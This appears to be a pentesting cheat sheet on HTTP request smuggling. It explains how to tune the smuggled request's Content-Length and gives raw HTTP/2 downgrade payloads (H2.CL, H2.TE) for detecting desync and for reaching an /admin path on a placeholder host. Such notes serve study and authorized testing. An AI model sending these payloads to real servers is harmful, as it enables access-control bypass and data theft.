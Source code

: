 ## Content-Length in the smuggled request

The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.

## HTTP/2 request smuggling

**HTTP/2 downgrading**

HTTP/2 downgrading converts HTTP/2 requests into HTTP/1 syntax, allowing web servers and proxies to support HTTP/2 clients while communicating with HTTP/1 back-end servers.

## Identification

### H2.CL

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /404 HTTP/1.1
Foo: x
```

Then send another request and you'll get `/404` .

### H2.TE

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

## Exploitation

### H2.CL

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 5

x=1
```

